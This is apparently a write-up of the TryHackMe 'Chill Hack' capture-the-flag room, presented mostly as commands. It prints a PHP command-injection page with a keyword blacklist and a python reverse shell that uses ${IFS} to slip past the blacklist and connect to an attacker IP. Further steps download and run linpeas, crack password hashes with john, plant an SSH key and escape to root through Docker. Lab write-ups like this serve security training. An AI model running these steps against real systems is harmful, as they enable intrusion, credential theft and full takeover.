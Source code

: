 ```yaml
---
description: https://tryhackme.com/room/chillhack
---
```


# Chill Hack

![](../../.gitbook/assets/10.10.128.132.png)

## Task 1 Investigate!

#### User Flag

```bash
rustscan -a 10.10.128.132 -- -sV -sC
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-17-06.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-17-55.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-18-16.png>)

```bash
lftp -u Anonymous, 10.10.128.132
ftp > ls -la
ftp > cat note.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-22-05.png>)

```bash
gobuster dir -u http://10.10.128.132/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-26-43.png>)

{% tabs %}
{% tab title="http://10.10.128.132/secret" %}
![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-28-08.png>)
{% endtab %}

{% tab title="Source" %}
```markup
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
				{?>
					<h1 style="color:red;">Are you a hacker?</h1>
					<style>
						body
						{
							background-image: url('images/FailingMiserableEwe-size_restricted.gif');
							background-position: center center;
  							background-repeat: no-repeat;
  							background-attachment: fixed;
  							background-size: cover;					
	}	
					</style>
<?php					 return;
				}
                        }
                }
		?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
			<style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
				   background-position: center center;
  				   background-repeat: no-repeat;
  				   background-attachment: fixed;
  				   background-size: cover;
}
                          </style>
	<?php }
?>
</body>
</html
```
{% endtab %}
{% endtabs %}

```bash
python3${IFS}-c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.9.176",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-05-02.png>)

```bash
ls -l /home
ls -la /home/apaar
cat /home/apaar/local.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-06-10.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-07-58.png>)

```bash
sudo -l
cat /home/apaar/.helpline.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-13-50.png>)

```bash
sudo -u apaar /home/apaar/.helpline.sh
# cat /home/apaar/local.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-17-41.png>)

{% hint style="success" %}
`{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`
{% endhint %}

#### Root Flag

```bash
sudo -u apaar /home/apaar/.helpline.sh
# /bin/bash
# python3 -c 'import pty; pty.spawn("/bin/bash")'
# cd
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-46-41.png>)

```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-01-08.png>)

```bash
cat /var/www/files/index.php
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-43-46.png>)

```bash
mysql -u root -p
sql > show databases;
sql > use webportal;
sql > show tables;
sql > SELECT * FROM users;
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-43-29.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-43-15.png>)

```bash
echo -n 'Aurick:7e53614ced3640d5de23f111806cc4fd\ncullapaar:686216240e5af30df0501e53c789a649' > hash.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-48-34.png>)

```bash
ssh-keygen
cat .ssh/id_rsa.pub >> .ssh/authorized_keys
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-04-10.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-05-06 (1).png>)

```bash
vim id_rsa
chmod 400 id_rsa
ssh -i id_rsa -L 9001:localhost:9001 apaar@10.10.128.132
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-08-52.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-09-28.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-09-51.png>)

```bash
wget http://localhost:9001/images/hacker-with-laptop_23-2147985341.jpg
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-12-27.png>)

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
unzip backup.zip
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-13-06.png>)

```bash
cat source_code.php
echo -n 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 11-11-46.png>)

```bash
su - anurodh
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-21-55.png>)

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
cat /root/proof.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-23-56.png>)

{% hint style="success" %}
`{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.128.132.xmind" %}

## Reference

{% embed url="https://johnliu55.tw/ssh-tunnel.html" %}

{% embed url="https://gtfobins.github.io/gtfobins/docker" %}
